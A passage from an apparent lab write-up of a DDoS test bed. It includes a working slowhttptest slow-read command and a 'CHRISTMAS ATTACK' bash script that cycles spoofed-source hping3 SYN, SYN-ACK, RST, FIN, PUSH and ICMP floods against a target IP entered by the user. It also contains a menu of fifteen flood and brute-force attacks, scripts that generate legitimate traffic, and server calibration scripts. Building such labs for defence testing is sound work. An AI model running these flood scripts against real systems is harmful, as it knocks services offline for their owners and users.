echo "###################### SLOW-READ ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo "################# STARTING THREADS ######################"

slowhttptest -c 8000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u http://$tarip/ -p 3
}}}

=== Custom Attacks ===

==== CHRISTMAS ATTACK ====

- A combination of layer-4 DDOS Attacks with variations in type of attacks and in packet sizes.

- This attack uses all available ports for generating attacks.

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-20
#! /bin/bash

echo
echo "###################### CHRISTMAS ATTACK: FLOOD COCKTAIL WITH SMART CHANGE ######################"
echo
echo -en "Whos REALLY Gona Bleed Today (IP):"
read tarip
echo
echo -en "Enter Smart Change Duration Period in Seconds:"
read speriod
echo
echo -en "HIT ENTER TO MAKE IT BLEED !!"
read thisisit
echo "################################### STARTING THREADS ##########################################"


while true
do
      ztep=$(echo $RANDOM | cut -c1-2)
      for i in $(seq 64 $ztep 1500)
      do
          packet=$i
          ## SYN TYPE
          hping3 $tarip -S -d $packet -p 21 --flood -I eth1 --rand-source &
          hping3 $tarip -S -d $packet -p 22 --flood -I eth1 --rand-source &
          hping3 $tarip -S -d $packet -p 25 --flood -I eth1 --rand-source &
          hping3 $tarip -S -d $packet -p 53 --flood -I eth1 --rand-source &
          hping3 $tarip -S -d $packet -p 80 --flood -I eth1 --rand-source &
          hping3 $tarip -S -d $packet -p 111 --flood -I eth1 --rand-source &
          hping3 $tarip -S -d $packet -p 161 --flood -I eth1 --rand-source &
sleep $speriod
          pkill hping3
          ## SYN-ACK TYPE
          hping3 $tarip -S -A -d $packet -p 21 --flood -I eth1 --rand-source &
          hping3 $tarip -S -A -d $packet -p 22 --flood -I eth1 --rand-source &
          hping3 $tarip -S -A -d $packet -p 25 --flood -I eth1 --rand-source &
          hping3 $tarip -S -A -d $packet -p 53 --flood -I eth1 --rand-source &
          hping3 $tarip -S -A -d $packet -p 80 --flood -I eth1 --rand-source &
          hping3 $tarip -S -A -d $packet -p 111 --flood -I eth1 --rand-source &
          hping3 $tarip -S -A -d $packet -p 161 --flood -I eth1 --rand-source &
sleep $speriod
          pkill hping3
          ## RST FLAG TYPE
          hping3 $tarip -R -d $packet -p 21 --flood -I eth1 --rand-source &
          hping3 $tarip -R -d $packet -p 22 --flood -I eth1 --rand-source &
          hping3 $tarip -R -d $packet -p 25 --flood -I eth1 --rand-source &
          hping3 $tarip -R -d $packet -p 53 --flood -I eth1 --rand-source &
          hping3 $tarip -R -d $packet -p 80 --flood -I eth1 --rand-source &
          hping3 $tarip -R -d $packet -p 111 --flood -I eth1 --rand-source &
          hping3 $tarip -R -d $packet -p 161 --flood -I eth1 --rand-source &
sleep $speriod
          pkill hping3
          ## FIN FLAG TYPE
          hping3 $tarip -F -d $packet -p 21 --flood -I eth1 --rand-source &
          hping3 $tarip -F -d $packet -p 22 --flood -I eth1 --rand-source &
          hping3 $tarip -F -d $packet -p 25 --flood -I eth1 --rand-source &
          hping3 $tarip -F -d $packet -p 53 --flood -I eth1 --rand-source &
          hping3 $tarip -F -d $packet -p 80 --flood -I eth1 --rand-source &
          hping3 $tarip -F -d $packet -p 111 --flood -I eth1 --rand-source &
          hping3 $tarip -F -d $packet -p 161 --flood -I eth1 --rand-source &
sleep $speriod
          pkill hping3
          ## PUSH FLAG TYPE
          hping3 $tarip -P -d $packet -p 21 --flood -I eth1 --rand-source &
          hping3 $tarip -P -d $packet -p 22 --flood -I eth1 --rand-source &
          hping3 $tarip -P -d $packet -p 25 --flood -I eth1 --rand-source &
          hping3 $tarip -P -d $packet -p 53 --flood -I eth1 --rand-source &
          hping3 $tarip -P -d $packet -p 80 --flood -I eth1 --rand-source &
          hping3 $tarip -P -d $packet -p 111 --flood -I eth1 --rand-source &
          hping3 $tarip -P -d $packet -p 161 --flood -I eth1 --rand-source &
sleep $speriod
          pkill hping3
          ## ICMP TYPES
          hping3 $tarip --icmp --flood -I eth1 --rand-source -C 5 &
          hping3 $tarip --icmp --flood -I eth1 --rand-source &
sleep $speriod
          pkill hping3
      done
done
}}}

=== Creating The Combined List ===

{{{
root@The-SWARM:~# cat /usr/bin/list
#! /bin/bash
echo
echo "##### ATTACKS CONFIGURED:"
echo
echo "Layer-4 DOS Attacks:"
echo "--------------------"
echo "ATTACK-1  : SYN flood"
echo "ATTACK-2  : SYN-ACK flood"
echo "ATTACK-3  : Random (but identical across packet) payload (20 bytes payload)"
echo "ATTACK-4  : RST flood"
echo "ATTACK-5  : Synonymous payload (20 bytes payload) with spoofed source of victim itself"
echo "ATTACK-6  : SSH Brute Force"
echo "ATTACK-7  : Random (but identical across packet) UDP payload (20 bytes payload)"
echo "ATTACK-8  : Fragmentation Random Payload - UDP PAYLOAD"
echo "ATTACK-9  : DNS Payload to DNS port flood"
echo "ATTACK-10 : ICMP code-5 FLOOD"
echo "ATTACK-11 : ICMP code-5 FRAG FLOOD"
echo "ATTACK-12 : ICMP code-8 FLOOD"
echo
echo "Layer-7 DOS Attacks:"
echo "--------------------"
echo "ATTACK-13 : SLOW-LORIS HTTP ATTACK"
echo "ATTACK-14 : SLOW-POST HTTP ATTACK"
echo "ATTACK-15 : SLOW-READ HTTP ATTACK"
echo
echo "Custom Built DOS Attacks:"
echo "--------------------"
echo "ATTACK-20 : CHRISTMAS ATTACK"
echo
echo "ATTACk-CHECK : Check current Running Attacks"
echo "ATTACK-STOP  : Stop All Active Attacks"
echo
}}}

=== Creating The show Stopper ===

- Attack Triggers to check & Stop Current Attacks

==== Attack Check ====

{{{
#! /bin/bash

test1=$(ps aux | grep -i "[h]ping3")
test2=$(ps aux | grep -i "[s]lowloris.pl")
test3=$(ps aux | grep -i "[s]lowhttptest")


if [ -z "$test1" ] && [ -z "$test2" ] && [ -z "$test3" ]
then
echo "## No Current Attacks are running ##"
else
echo
echo "## The following Attacks are running:"
echo
ps aux | grep -i "[h]ping3"
ps aux | grep -i "[s]lowloris.pl"
ps aux | grep -i "[s]lowhttptest"
echo
fi
}}}

==== Attack Stop ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-STOP 
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /usr/bin/
#-------------------

pkill hping3
pkill hping3
pkill hping3
pkill hping3

pkill slowloris.pl
pkill slowloris.pl
pkill slowloris.pl
pkill slowloris.pl

pkill slowhttptest
pkill slowhttptest
pkill slowhttptest
pkill slowhttptest

ps aux | grep -i hping3 > removing-pid.temp
sed '/grep -i hping3/d' removing-pid.temp > removing-pid
sleep 0.5
while read line
do
PID=$(echo $line | awk '{print $2}')
echo KILLING HPING @PID=$PID
kill -9 $PID
done < removing-pid
}}}
-----

= The Client =

{{attachment:client.jpg}}

- The Client is the System which is going to Generate & Request Legitimate traffic back & Forth in correspondence with the victim.

== System Specifications ==

- The Client Server held the following Specs:

OS: Debian 8.1 (Jessie)

CPU: 4xCore

RAM: 4GB

Swap: 8GB

Disk: 500GB

== Preparing The Server ==

1- First Comes the network configuration, which includes Mang. Iface and the Data Traffic Iface

2- I have Created 250 Different Loopback Ifaces in order to simulate legitimate traffic from 250 different sources.

{{{
source /etc/network/interfaces.d/*

# The loopback network interface
auto lo
iface lo inet loopback

# The primary network interface
allow-hotplug eth0
iface eth0 inet static
         address 192.168.0.131
         netmask 255.255.255.0
#        gateway 192.168.0.1
         network 192.168.0.0
         broadcast 192.168.0.255
         dns-nameservers 192.168.0.4


allow-hotplug eth1
iface eth1 inet static
        address 172.4.1.2
        netmask 255.255.255.252
        gateway 172.4.1.1
        network 172.4.1.0
        broadcast 172.4.1.3


# STATIC-ROUTES
up route add -net 192.168.0.0/16 gw 192.168.0.1 dev eth0
up route add -net 10.172.99.0/24 gw 192.168.0.1 dev eth0

##########################  LEGIT IFACES
# LOOPBACKS
auto lo lo:1 lo:2 lo:3 lo:4 lo:5 lo:6 lo:7 lo:8 lo:9 lo:10 lo:11 lo:12 lo:13 lo:14 lo:15 lo:16 lo:17 lo:18 lo:19 lo:20 lo:21 lo:22 lo:23 lo:24 lo:25 lo:26 lo:27 lo:28 lo:29 lo:30 lo:31 lo:3
2 lo:33 lo:34 lo:35 lo:36 lo:37 lo:38 lo:39 lo:40 lo:41 lo:42 lo:43 lo:44 lo:45 lo:46 lo:47 lo:48 lo:49 lo:50 lo:51 lo:52 lo:53 lo:54 lo:55 lo:56 lo:57 lo:58 lo:59 lo:60 lo:61 lo:62 lo:63 l
o:64 lo:65 lo:66 lo:67 lo:68 lo:69 lo:70 lo:71 lo:72 lo:73 lo:74 lo:75 lo:76 lo:77 lo:78 lo:79 lo:80 lo:81 lo:82 lo:83 lo:84 lo:85 lo:86 lo:87 lo:88 lo:89 lo:90 lo:91 lo:92 lo:93 lo:94 lo:9
5 lo:96 lo:97 lo:98 lo:99 lo:100 lo:101 lo:102 lo:103 lo:104 lo:105 lo:106 lo:107 lo:108 lo:109 lo:110 lo:111 lo:112 lo:113 lo:114 lo:115 lo:116 lo:117 lo:118 lo:119 lo:120 lo:121 lo:122 lo
:123 lo:124 lo:125 lo:126 lo:127 lo:128 lo:129 lo:130 lo:131 lo:132 lo:133 lo:134 lo:135 lo:136 lo:137 lo:138 lo:139 lo:140 lo:141 lo:142 lo:143 lo:144 lo:145 lo:146 lo:147 lo:148 lo:149 lo
:150 lo:151 lo:152 lo:153 lo:154 lo:155 lo:156 lo:157 lo:158 lo:159 lo:160 lo:161 lo:162 lo:163 lo:164 lo:165 lo:166 lo:167 lo:168 lo:169 lo:170 lo:171 lo:172 lo:173 lo:174 lo:175 lo:176 lo
:177 lo:178 lo:179 lo:180 lo:181 lo:182 lo:183 lo:184 lo:185 lo:186 lo:187 lo:188 lo:189 lo:190 lo:191 lo:192 lo:193 lo:194 lo:195 lo:196 lo:197 lo:198 lo:199 lo:200 lo:201 lo:202 lo:203 lo
:204 lo:205 lo:206 lo:207 lo:208 lo:209 lo:210 lo:211 lo:212 lo:213 lo:214 lo:215 lo:216 lo:217 lo:218 lo:219 lo:220 lo:221 lo:222 lo:223 lo:224 lo:225 lo:226 lo:227 lo:228 lo:229 lo:230 lo
:231 lo:232 lo:233 lo:234 lo:235 lo:236 lo:237 lo:238 lo:239 lo:240 lo:241 lo:242 lo:243 lo:244 lo:245 lo:246 lo:247 lo:248 lo:249 lo:250
iface lo inet loopback

iface lo:1 inet static
        address 30.30.1.1
        netmask 255.255.255.0

iface lo:2 inet static
        address 30.30.2.1
        netmask 255.255.255.0

iface lo:3 inet static
        address 30.30.3.1
        netmask 255.255.255.0

....

iface lo:243 inet static
        address 30.30.243.1
        netmask 255.255.255.0

iface lo:244 inet static
        address 30.30.244.1
        netmask 255.255.255.0

iface lo:245 inet static
        address 30.30.245.1
        netmask 255.255.255.0

iface lo:246 inet static
        address 30.30.246.1
        netmask 255.255.255.0

iface lo:247 inet static
        address 30.30.247.1
        netmask 255.255.255.0

iface lo:248 inet static
        address 30.30.248.1
        netmask 255.255.255.0

iface lo:249 inet static
        address 30.30.249.1
        netmask 255.255.255.0

iface lo:250 inet static
        address 30.30.250.1
        netmask 255.255.255.0
}}} 

== Legitimate Traffic Generation ==

- In order to Generate Simultaneous Legitimate Services with Fluctuating bandwidth, the following has been created and used.

=== Legitimate HTTP ===

{{{
root@DDOS-Client:~/shockWave/LEGIT# cat start-http
#! /bin/bash

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
many=250
echo
touch /root/shockWave/LEGIT/temp-cluster/temp-http-300
echo "Cleaning HTTP Temp Cluster...[OK]"
rm -r /root/shockWave/LEGIT/temp-cluster/temp-http-*
echo

while true
do
check=$(ps aux | grep -i wget | grep -i "http:" | head -1 | grep -o "limit")
if [ -z "$check" ]
then
    for i in `seq 1 $many`;
    do
       mkdir /root/shockWave/LEGIT/temp-cluster/temp-http-$i > /dev/null 2>&1
       cd /root/shockWave/LEGIT/temp-cluster/temp-http-$i
       echo -en "                   ## Deploying HTTP Client $i/$many" \\r
       wget --bind-address=30.30.$i.1 --limit-rate=10K -r -p -l 2 -T 60 --random-wait --user-agent="Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.3) Gecko/2008092416 Firefox/3.0.3" --convert-links http://10.10.10.2/ > /dev/null 2>&1 &
       sleep 0.1
    done
else
    echo "                   Waiting for Active Clients..."
fi
sleep 1
done


# --bind-address=ADDRESS    bind to ADDRESS (hostname or IP) on local host.
# --limit-rate=RATE         limit download rate to RATE.
# -p,  --page-requisites    get all images, etc. needed to display HTML page.
# -r,  --recursive          specify recursive download.
# -l,  --level=NUMBER       maximum recursion depth (inf or 0 for infinite).
# -T,  --timeout=SECONDS    set all timeout values to SECONDS.
# --random-wait             wait from 0.5*WAIT...1.5*WAIT secs between retrievals.
# --user-agent=AGENT        identify as AGENT instead of Wget/VERSION.
# --convert-links           make links in downloaded HTML or CSS point to local files.
}}} 

=== Legitimate HTTPS ===

{{{
root@DDOS-Client:~/shockWave/LEGIT# cat start-https
#! /bin/bash

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
many=250
echo
touch /root/shockWave/LEGIT/temp-cluster/temp-httpS-300
echo "Cleaning HTTPS Temp Cluster...[OK]"
rm -r /root/shockWave/LEGIT/temp-cluster/temp-httpS-*


while true
do
check=$(ps aux | grep -i wget | grep -i "https:" | head -1 | grep -o "limit")
if [ -z "$check" ]
then
    for i in `seq 1 $many`;
    do
       mkdir /root/shockWave/LEGIT/temp-cluster/temp-httpS-$i > /dev/null 2>&1
       cd /root/shockWave/LEGIT/temp-cluster/temp-httpS-$i
       echo -en "                                                        ## Deploying HTTPS Client $i/$many" \\r
       wget --bind-address=30.30.$i.1 --limit-rate=10K -r -p -l 2 -T 60 --no-check-certificate --random-wait --user-agent="Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.3) Gecko/2008092416 Firefox/3.0.3" --convert-links https://10.10.10.2/  > /dev/null 2>&1 &
       sleep 0.1
    done
else
    echo "                                                        Waiting for Active Clients..."
fi
sleep 1
done


# --bind-address=ADDRESS    bind to ADDRESS (hostname or IP) on local host.
# --limit-rate=RATE         limit download rate to RATE.
# -p,  --page-requisites    get all images, etc. needed to display HTML page.
# -r,  --recursive          specify recursive download.
# -l,  --level=NUMBER       maximum recursion depth (inf or 0 for infinite).
# -T,  --timeout=SECONDS    set all timeout values to SECONDS.
# --random-wait             wait from 0.5*WAIT...1.5*WAIT secs between retrievals.
# --user-agent=AGENT        identify as AGENT instead of Wget/VERSION.
# --convert-links           make links in downloaded HTML or CSS point to local files.
}}}

=== Legitimate FTP ===

{{{
root@DDOS-Client:~/shockWave/LEGIT# cat start-ftp 
#! /bin/bash

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
rm -r /root/shockWave/LEGIT/temp-cluster/FTP > /dev/null 2>&1
mkdir /root/shockWave/LEGIT/temp-cluster/FTP > /dev/null 2>&1
cd /root/shockWave/LEGIT/temp-cluster/FTP
sleep 1
n=1
many=250
while true
do
    for i in `seq 1 $many`;
    do
       echo "-> FTP GET Count $n"
       wget --bind-address=30.30.$i.1 ftp://core:core@10.10.10.2/ftp-files/test1m > /dev/null 2>&1
       sleep 0.5
       let n=n+1
    done
done
}}}

=== Legitimate SMTP ===

{{{
root@DDOS-Client:~/shockWave/LEGIT# cat start-smtp 
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
cd /root/shockWave/LEGIT/temp-cluster
rm ps aux > /dev/null 2>&1
(mkfifo /var/spool/postfix/public/pickup ps aux | grep mail kill sudo /etc/init.d/postfix restart) > /dev/null 2>&1
service postfix restart > /dev/null 2>&1
sleep 1

n=1
postsuper -d ALL deferred
postsuper -d ALL
while true
do
    echo "-> MAILS SENT: $n"
    echo "BLA BLA BLA BLA BLA BLA BLA BLA BLA" | mail -s "TEST SUBJECT" -a "From: you@example.com" test@victim.com
    sleep 0.5
    let n=n+1
done
}}}

=== Legitimate DNS ===

{{{
root@DDOS-Client:~/shockWave/LEGIT# cat start-dns 
#! /bin/bash

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
cd /root/shockWave/LEGIT/temp-cluster
sleep 1
n=1
many=250
while true
do
    for i in `seq 1 $many`;
    do
       echo "-> DNS RUN $n"
       dig -b 30.30.$i.1 @10.10.10.2 core.myhome.net > /dev/null 2>&1
       dig -b 30.30.$i.1 @10.10.10.2 gw.myhome.net > /dev/null 2>&1
       dig -b 30.30.$i.1 @10.10.10.2 control.myhome.net > /dev/null 2>&1
       dig -b 30.30.$i.1 @10.10.10.2 ns.myhome.net > /dev/null 2>&1
       dig -b 30.30.$i.1 @10.10.10.2 dns.myhome.net > /dev/null 2>&1
       dig -b 30.30.$i.1 @10.10.10.2 media.myhome.net > /dev/null 2>&1
       dig -b 30.30.$i.1 @10.10.10.2 lb.myhome.net > /dev/null 2>&1
       sleep 0.5
       let n=n+1
    done
done
}}}

=== Legitimate ICMP ===

{{{
root@DDOS-Client:~/shockWave/LEGIT# cat start-ping 
#! /bin/bash

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
cd /root/shockWave/LEGIT/temp-cluster
sleep 1
n=1
many=250
while true
do
    for i in `seq 1 $many`;
    do
       echo -en "                                                                                            ## Ping Count $n" \\r
       ping -c 1 -I 30.30.$i.1 10.10.10.2 > /dev/null 2>&1
       sleep 0.1
       let n=n+1
    done
done
}}}

== Legitimate Traffic Spool up ==

=== Legitimate Mix Start ===

{{{
root@DDOS-Client:~/shockWave/LEGIT# cat START-MIX 
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
cd /root/shockWave/LEGIT/temp-cluster

/root/shockWave/LEGIT/start-http &
/root/shockWave/LEGIT/start-https &
/root/shockWave/LEGIT/start-smtp &
/root/shockWave/LEGIT/start-dns &
/root/shockWave/LEGIT/start-ping &
/root/shockWave/LEGIT/start-ftp &
}}}

=== Legitimate Mix Stop ===

{{{
root@DDOS-Client:~/shockWave/LEGIT# cat KILL-MIX 
#! /bin/bash

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games

#KILL LOOP ITSELF IF NEEDED
#pkill loop-for-ram && pkill loop-for-ram && pkill loop-for-ram && pkill loop-for-ram && pkill loop-for-ram

pkill start-http && pkill start-http && pkill start-http && pkill start-http && pkill start-http && pkill start-http

pkill start-https && pkill start-https && pkill start-https && pkill start-https && pkill start-https && pkill start-https

pkill start-smtp && pkill start-smtp && pkill start-smtp && pkill start-smtp && pkill start-smtp && pkill start-smtp

pkill start-dns && pkill start-dns && pkill start-dns && pkill start-dns && pkill start-dns && pkill start-dns

pkill start-ping && pkill start-ping && pkill start-ping && pkill start-ping && pkill start-ping && pkill start-ping

pkill start-ftp && pkill start-ftp && pkill start-ftp && pkill start-ftp && pkill start-ftp && pkill start-ftp

pkill wget && pkill wget && pkill wget && pkill wget && pkill wget && pkill wget

pkill nslookup && pkill nslookup && pkill nslookup && pkill nslookup && pkill nslookup && pkill nslookup

pkill ping && pkill ping && pkill ping && pkill ping && pkill ping && pkill ping

swapoff -a && swapon -a
}}}

=== Legitimate Continuous Loop ===

{{{
root@DDOS-Client:~/shockWave/LEGIT# cat loop-for-ram 
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/LEGIT/temp-cluster

while true
do
    /root/shockWave/LEGIT/START-MIX &
    sleep 300
    /root/shockWave/LEGIT/KILL-MIX
done
}}}

-----

= Calibration Setup =

{{attachment:Calib.jpg}}

- In order to Calibrate the performance & response times of the victim, Calibration tools has been built on the Client.

- The Calibration uses 10 Different Clients in Data collection each sourced from unique IP.

== Calibration Mechanism ==

- Tools & Scripts that I used & Created for Calibrating the Server Performance

=== Calibrate HTTP ===

{{{
root@DDOS-Client:~/shockWave/Calibration# cat calib-http
#! /bin/bash

#TIMES OUT AT MAX 25 SECONDS

calibT="http://192.168.0.66/"

for i in {1..10}
do
  siege -c 1000 -r 1 $calibT > /root/shockWave/Calibration/temp-cluster/http-$i.calib 2>&1
  client=$(cat /root/shockWave/Calibration/temp-cluster/http-$i.calib | grep -i "Transaction rate:" | awk '{print $3}')
  #value=$(echo $client*1000 | bc )
  value=$(echo $client)
  echo HTTP Client$i is $value Trans/sec

  echo $value > /root/shockWave/Calibration/DATA-POINTS/http/http-$i.DP
done
}}}

=== Calibrate HTTPS ===

{{{
root@DDOS-Client:~/shockWave/Calibration# cat calib-https 
#! /bin/bash

#TIMES OUT AT MAX 25 SECONDS

calibT="https://192.168.0.66/"

for i in {1..10}
do
  siege -c 1000 -r 1 $calibT > /root/shockWave/Calibration/temp-cluster/httpS-$i.calib 2>&1
  client=$(cat /root/shockWave/Calibration/temp-cluster/httpS-$i.calib | grep -i "Transaction rate:" | awk '{print $3}')
  #value=$(echo $client*1000 | bc )
  value=$(echo $client)
  echo HTTPS Client$i is $value Trans/sec
  echo $value > /root/shockWave/Calibration/DATA-POINTS/https/https-$i.DP
done
}}}

=== Calibrate FTP ===

{{{
root@DDOS-Client:~/shockWave/Calibration# cat calib-ftp
#! /bin/bash

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
cd /root/shockWave/Calibration/temp-cluster

calibT="192.168.0.66"
#calibS='30.30.$i.1'
calibS="192.168.0.131"

for i in {1..10}
do
  wget --bind-address=$calibS ftp://core:core@$calibT/ftp-files/test1m -O ftp-$i.file 2> /root/shockWave/Calibration/temp-cluster/ftp-$i.calib
  client=$(cat /root/shockWave/Calibration/temp-cluster/ftp-$i.calib | grep -i "100%" | awk '{print $4}' | cut -d "=" -f2 | cut -d "s" -f1)
  value=$(echo $client*1000 | bc )
  echo FTP Client$i is $value MilliSEC
  echo $value > /root/shockWave/Calibration/DATA-POINTS/ftp/ftp-$i.DP
done
}}}

=== Calibrate SMTP ===

{{{
root@DDOS-Client:~/shockWave/Calibration# cat calib-smtp 
#! /bin/bash

#TIMES OUT AT MAX 25 SECONDS

calibT="192.168.0.66:25"

for i in {1..10}
do
  { time smtp-source -s 40 -l 10120 -m 50 -c -f root@client.com -t root@victim.com $calibT ; } &> /root/shockWave/Calibration/temp-cluster/smtp-$i.calib
  client=$(cat /root/shockWave/Calibration/temp-cluster/smtp-$i.calib | grep -i "real" | awk '{print $2}' | cut -d "m" -f2 | cut -d "s" -f1)
  value=$(echo $client*1000 | bc )
  echo SMTP Client$i is $value MilliSEC
  echo $value > /root/shockWave/Calibration/DATA-POINTS/smtp/smtp-$i.DP
done
}}}

=== Calibrate DNS ===

{{{
root@DDOS-Client:~/shockWave/Calibration# cat calib-dns
#! /bin/bash

#TIMES OUT AT MAX 25 SECONDS

calibT="192.168.0.66"
#calibS='30.30.$i.1'
calibS="192.168.0.131"

for i in {1..10}
do
  dig -b $calibS @$calibT core.myhome.net    > /root/shockWave/Calibration/temp-cluster/dns1-$i.calib 2>&1
  dig -b $calibS @$calibT gw.myhome.net      > /root/shockWave/Calibration/temp-cluster/dns2-$i.calib 2>&1
  dig -b $calibS @$calibT control.myhome.net > /root/shockWave/Calibration/temp-cluster/dns3-$i.calib 2>&1
  dig -b $calibS @$calibT ns.myhome.net      > /root/shockWave/Calibration/temp-cluster/dns4-$i.calib 2>&1
  dig -b $calibS @$calibT dns.myhome.net     > /root/shockWave/Calibration/temp-cluster/dns5-$i.calib 2>&1
  dig -b $calibS @$calibT media.myhome.net   > /root/shockWave/Calibration/temp-cluster/dns6-$i.calib 2>&1
  dig -b $calibS @$calibT lb.myhome.net      > /root/shockWave/Calibration/temp-cluster/dns7-$i.calib 2>&1
  let value=0
  for j in {1..7}
  do
    client=$(cat /root/shockWave/Calibration/temp-cluster/dns$j-$i.calib | grep -i "Query time:" | awk '{print $4}')
    clres=$(echo $client)
    let value=value+$clres
  done
  echo DNS Client$i is $value MilliSEC
  echo $value > /root/shockWave/Calibration/DATA-POINTS/dns/dns-$i.DP
done
}}}

=== Calibrate ICMP ===

{{{
root@DDOS-Client:~/shockWave/Calibration# cat calib-ping 
#! /bin/bash

#TIMES OUT AT MAX 25 SECONDS

calibT="192.168.0.66"
#calibS="30.30.$i.1"
calibS="192.168.0.131"

for i in {1..10}
do
  ping -c 1 -I $calibS $calibT > /root/shockWave/Calibration/temp-cluster/ping-$i.calib 2>&1
  client=$(cat /root/shockWave/Calibration/temp-cluster/ping-$i.calib | grep -i "time=" | awk '{print $7}' | cut -d "=" -f2)
  value=$(echo $client*1000 | bc)
  echo ICMP Client$i is $value MicroSEC
  echo $value > /root/shockWave/Calibration/DATA-POINTS/icmp/icmp-$i.DP 
done
}}}

== Calibration Spool up ==

- To start Continuous calibration 

=== Calib-Start-Mix ===

{{{
root@DDOS-Client:~/shockWave/Calibration# cat CALIB-MIX 
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
cd /root/shockWave/Calibration/temp-cluster

/root/shockWave/Calibration/calib-http &
/root/shockWave/Calibration/calib-https &
/root/shockWave/Calibration/calib-smtp &
/root/shockWave/Calibration/calib-dns &
/root/shockWave/Calibration/calib-ping &
/root/shockWave/Calibration/calib-ftp &
}}}

Then Cron it over whatever time period needed.

{{{
* * * * * /root/shockWave/Calibration/CALIB-MIX
}}}

== Data Points Collectors ==

- Create the Collectors which will retrieve the Data Points Values

- The following Script was used to create another '''''67''''' Scripts.

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat MAKE.CREATE 
#! /bin/bash


for i in {1..10}
do
echo "#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd icmp/
cat icmp-$i.DP

" > make-icmp-$i
done
}}}

=== HTTP Collector for Clients 1 through 10 ===

{{{
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd http/
cat http-1.DP
}}}

=== HTTPS Collector for Clients 1 through 10 ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-https-1
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd https/
cat https-1.DP
}}}

=== FTP Collector for Clients 1 through 10 ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-ftp-1
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd ftp/
cat ftp-1.DP
}}}

=== SMTP Collector for Clients 1 through 10 ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-smtp-1
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd smtp/
cat smtp-1.DP
}}}

=== DNS Collector for Clients 1 through 10 ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-dns-1
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd dns/
cat dns-1.DP
}}}

=== ICMP Collector for Clients 1 through 10 ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-icmp-1
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd icmp/
cat icmp-1.DP
}}}

== Average of Average Data Points ==

- To create the Average of Average Data-Points:

=== HTTP Average Data Point ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-http-AVG 
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd http/

AVG=$(echo "scale=2; 0.00" | bc -l)
for datapoint in *.DP
do
    val=$(cat $datapoint)
    AVG=$(echo "scale=2; $AVG + $val" | bc -l)
done
AVG=$(echo "scale=2; $AVG / 10" | bc )
echo $AVG
}}}

=== HTTPS Average Data Point ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-https-AVG 
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd https/

AVG=$(echo "scale=2; 0.00" | bc -l)
for datapoint in *.DP
do
    val=$(cat $datapoint)
    AVG=$(echo "scale=2; $AVG + $val" | bc -l)
done
AVG=$(echo "scale=2; $AVG / 10" | bc )
echo $AVG
}}}

=== FTP Average Data Point ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-ftp-AVG  
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd ftp/

AVG=$(echo "scale=2; 0.00" | bc -l)
for datapoint in *.DP
do
